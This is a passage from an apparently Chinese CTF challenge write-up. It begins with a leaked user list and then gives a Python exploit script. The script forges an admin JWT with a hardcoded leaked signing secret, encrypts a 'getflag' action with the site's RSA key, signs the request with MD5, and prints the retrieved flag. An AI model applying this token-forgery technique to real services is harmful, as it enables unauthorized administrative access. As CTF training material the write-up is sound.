5b-4c5b-8f5b-5f5b5f5b5f5b","name":"Charlie","phone":"555-555-5555"},{"uuid":"732390b8-ccb6-41de-a93b-94ea059fd263","name":"David","phone":"444-444-4444"},{"uuid":"f633ec24-cfe6-42ba-bcd8-ad2dfae6d547","name":"Eve","phone":"333-333-3333"},{"uuid":"eb8991c8-9b6f-4bc8-89dd-af3576e92bdb","name":"Frank","phone":"222-222-2222"},{"uuid":"db62356d-3b99-4764-b378-e46cb95df9e6","name":"Grace","phone":"111-111-1111"},{"uuid":"8f4610ee-ee87-4cca-ad92-6cac4fdbe722","name":"Hannah","phone":"000-000-0000"},{"uuid":"1678d80e-fd4d-4de3-aae2-cb0077f10c21","name":"Ian","phone":"123-123-1234"},{"uuid":"5845b71f-ebb6-4707-8199-a4e46acf351f","name":"Jack","phone":"456-456-4567"}]}}

拿到admin的uid，于是客户端逻辑构造jwt和sign

```
import requests
import jwt
import json
import hashlib
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5
import base64


def decrypt_string(encrypted_str, key="134522123"):
    result = ""
    for i, char in enumerate(encrypted_str):
        key_char = key[i % len(key)]
        decrypted_char = chr(ord(char) ^ ord(key_char))
        result += decrypted_char
    return result


JWT_SECRET = "wCvO3WRz9*vNM%rMaApkerY^^jI6vXmh"
BASE_URL = "http://web-7d49f6fe60.challenge.xctf.org.cn"
ADMIN_UID = "9d5ec98c-5848-4450-9e58-9f97b6b3b7bc"
RSA_PUBLIC_KEY = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6HXr1LSOx2q97lSv0p7z
hqtgy/JwwWntE73TDKGMSx6Z5lRsDuVjBhuGPI050VkhtIgbAppM4xtsNhwkGfOK
s4OSt7PzHVyglkgwX7X04qFZKNOYYDS6Um+gZb5XXwiQ8GcFqfEjbKbLjvegUWur
H4sv3OpSIJOiTkhMZqCkfOTUxLF1+mwFDJVt5COQB/frFps/U5+OspjMGAVgORbn
99Uuy9KZsGQwX2e+NvvIAtLNaW1lycP0XTQiXnhm+k1+g8MGS01TpUZtwuBrDUAw
K/iNbCGQdKQ77J/dEO3YGYHKED2WKmApDGA0lNWou768D0dCHxOwUUwGIQw/CC1s
TwIDAQAB
-----END PUBLIC KEY-----"""


def create_admin_jwt():
    payload = {
        "sub": "1234567890",
        "uid": ADMIN_UID,
        "iat": 1516239022
    }
    return jwt.encode(payload, JWT_SECRET, algorithm="HS256")


def rsa_encrypt_action():
    action_data = '{"action":"getflag"}'
    public_key = RSA.import_key(RSA_PUBLIC_KEY)
    cipher = PKCS1_v1_5.new(public_key)
    encrypted_bytes = cipher.encrypt(action_data.encode('utf-8'))
    return base64.b64encode(encrypted_bytes).decode('utf-8')


def get_flag():
    admin_jwt = create_admin_jwt()
    encrypted_action = rsa_encrypt_action()
    request_body = f'{{"data":"{encrypted_action}"}}'
    md5_sign = hashlib.md5(request_body.encode('utf-8')).hexdigest()

    headers = {
        "Authorization": admin_jwt,
        "X-Sign": md5_sign,
        "Content-Type": "application/json"
    }

    response = requests.post(f"{BASE_URL}/api/v1/getflag", data=request_body, headers=headers)

    print(f"Flag: {response.text}")


if __name__ == "__main__":
    get_flag()
```



Flag: {"flag":"flag{lDBRUyyVQNGHtZn7SIuu295KAS3kniFk}"}
